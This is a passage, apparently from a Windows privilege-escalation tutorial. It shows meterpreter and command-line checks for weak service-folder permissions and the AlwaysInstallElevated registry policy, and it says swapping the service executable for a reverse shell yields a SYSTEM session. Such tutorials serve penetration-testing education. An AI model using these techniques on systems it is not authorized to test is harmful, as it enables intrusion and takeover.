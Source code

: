 ```
For example, if we check permissions for our Vulnerable Service’s executable path, we can see it does not protected well:
```
C:\Program Files (x86)\Program Folder>icacls "C:\Program Files (x86)\Program Folder\A Subfolder"
icacls "C:\Program Files (x86)\Program Folder\A Subfolder"
C:\Program Files (x86)\Program Folder\A Subfolder Everyone:(OI)(CI)(F)
                                                  Everyone:(I)(OI)(CI)(F)
                                                  NT SERVICE\TrustedInstaller:(I)(F)
                                                  NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                                  NT AUTHORITY\SYSTEM:(I)(F)
                                                  NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                                  BUILTIN\Administrators:(I)(F)
                                                  BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                                  BUILTIN\Users:(I)(RX)
                                                  BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                                  CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                  APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
Successfully processed 1 files; Failed processing 0 files
C:\Program Files (x86)\Program Folder>
```
Simply replacing “Executable.exe” file with a reverse shell payload and restarting the service will give us a meterpreter session with SYSTEM privileges.
### AlwaysInstallElevated
```AlwaysInstallElevated``` is a policy setting that directs Windows Installer to use elevated permissions when it installs any program on the system. If this policy setting is enabled, privileges are extended to all programs. Actually enabling that is equivalent to granting administrative rights to non-privileged users. But in a way that I cannot understand, sometimes system administrators enable this setting:

You should check this registry values to understand if this policy is enabled:
```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001
```
If you have gotten a low-priv Meterpreter session, the built-in command line tool, reg query will help you to check these values:
```
meterpreter > getuid
Server username: TARGETCOMPUTER\testuser
meterpreter > shell
Process 812 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Desktop>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
C:\Users\testuser\Desktop>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
C:\Users\testuser\Desktop>
```
If you got an error like “ERROR: The system was unable to find the specified registry key or value.” this means this registry values never created. So, the policy is not enabled.
But if you see following output, it means the policy setting is enabled and you can exploit it. 😉
```
meterpreter > getuid
Server username: TARGETCOMPUTER\testuser
meterpreter > shell
Process 2172 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.